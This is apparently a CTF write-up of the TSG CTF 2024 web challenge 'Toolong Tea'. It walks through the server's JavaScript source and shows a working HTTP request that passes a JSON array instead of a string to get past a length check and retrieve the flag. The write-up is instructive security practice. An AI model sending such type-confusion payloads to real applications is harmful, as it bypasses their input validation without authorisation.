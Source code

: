 ```yaml
---
permalink: /ctf/TSG-CTF-2024/Web/Toolong-Tea/index.html
title: TSG CTF 2024 Web Challenge Writeup - Toolong Tea
description: My TSG CTF 2024 writeup for web challenge "Toolong Tea".
ogImageUrl: https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TSG-CTF-2024/images/toolong-tea-ogimage.png
---
```


# Toolong Tea

<details class="toc"><summary markdown="span"><strong>Table of Contents</strong></summary>

- [Overview](#overview)
- [Background](#background)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Conclusion](#conclusion)

</details>

## Overview

- Solved by: @siunam
- 143 solves / 100 points
- Author: @fabon
- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

Recently it's getting colder in Tokyo which TSG is based in. Would you like to have a cup of hot oolong tea? It will warm up your body.

[http://34.84.32.212:4932](http://34.84.32.212:4932)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TSG-CTF-2024/images/Pasted%20image%2020241216111852.png)

## Enumeration

Index page:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TSG-CTF-2024/images/Pasted%20image%2020241214152321.png)

In here, we can submit a number. Let's try it!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TSG-CTF-2024/images/Pasted%20image%2020241214152539.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TSG-CTF-2024/images/Pasted%20image%2020241214152703.png)

Burp Suite HTTP history:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TSG-CTF-2024/images/Pasted%20image%2020241214152740.png)

When we clicked the "submit" button, it'll send a POST request to `/` with a JSON object:

```json
{
    "num":"123"
}
```

After that, the server respond "Please send 65536".

Let's try to submit number 65536!

```http
POST / HTTP/1.1
Host: 34.84.32.212:4932
Content-Type: application/json
Content-Length: 15

{"num":"65536"}
```

Response:

```http
HTTP/1.1 200 OK
[...]

Too long!
```

Hmm... "Too long!"?

To have a better understanding in this web application, we'll need to read its source code.

**In this challenge, we can download a [file](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TSG-CTF-2024/Web/Toolong-Tea/toolong_tea.tar.gz):**
```shell
┌[siunam♥Mercury]-(~/ctf/TSG-CTF-2024/Web/Toolong-Tea)-[2024.12.14|15:30:58(HKT)]
└> file toolong_tea.tar.gz  
toolong_tea.tar.gz: gzip compressed data, from Unix, original size modulo 2^32 20480
┌[siunam♥Mercury]-(~/ctf/TSG-CTF-2024/Web/Toolong-Tea)-[2024.12.14|15:30:59(HKT)]
└> tar xvzf toolong_tea.tar.gz 
toolong_tea/
toolong_tea/Dockerfile
toolong_tea/compose.yaml
toolong_tea/package-lock.json
toolong_tea/package.json
toolong_tea/public/
toolong_tea/public/index.html
toolong_tea/public/main.js
toolong_tea/server.js
```

After reading the source code a little bit, we can have the following findings:
1. This web application is written in JavaScript with framework [Hono](https://www.npmjs.com/package/hono)
2. The main logic of this web application is in `toolong_tea/server.js`

In `toolong_tea/server.js`, we can see that there's a POST route `/`:

```javascript
import { Hono } from "hono";

const flag = process.env.FLAG ?? "TSGCTF{DUMMY}";

const app = new Hono();
[...]
app.post("/", async (c) => {
    try {
        const { num } = await c.req.json();
        if (num.length === 3 && [...num].every((d) => /\d/.test(d))) {
            const i = parseInt(num, 10);
            if (i === 65536) {
                return c.text(`Congratulations! ${flag}`);
            }
            return c.text("Please send 65536");
        }
        if (num.length > 3) {
            return c.text("Too long!");
        }
        return c.text("Please send 3-digit integer");
    } catch {
        return c.text("Invalid JSON", 500);
    }
});
```

In this route, if our JSON object's attribute `num` length is 3 and its value is all digit, it'll use `parseInt` to parse our string to integer (base 10). **If the parsed integer is `65536`**, it'll return the flag in the JSON response.

With that said, we need to send number `65536` to get the flag.

Wait, how? Isn't this if statement will check our attribute `num`'s length is equal to `3`?

```javascript
const { num } = await c.req.json();
if (num.length === 3 && [...]) {
    [...]
}
```

How can we bypass this?

Well... Since **it doesn't check the attribute `num` to be type string**, we can send the `num` attribute with value of **3 array items** like this:

```json
{
    "num":[
        "123",
        "456",
        "789"
    ]
}
```

By doing so, the `num`'s length is `3`, which bypasses the length check.

Now, here's the question: **Can `parseInt` parse an array?**

Let's try to test that!

```shell
┌[siunam♥Mercury]-(~/ctf/TSG-CTF-2024/Web/Toolong-Tea)-[2024.12.14|15:31:38(HKT)]
└> node                      
[...]
> parseInt(["123", "456", "789"], 10);
123
```

Oh! It can! And it parsed the first item in the array!

## Exploitation

Armed with the above information, we can send the following POST request to get the flag!

```http
POST / HTTP/1.1
Host: 34.84.32.212:4932
Content-Type: application/json
Content-Length: 73

{
    "num":[
        "65536",
        "456",
        "789"
    ]
}
```

Response:

```http
HTTP/1.1 200 OK
[...]

Congratulations! TSGCTF{A_holy_night_with_no_dawn_my_dear...}
```

- **Flag: `TSGCTF{A_holy_night_with_no_dawn_my_dear...}`**

## Conclusion

What we've learned:

1. Bypass validation via missing type checking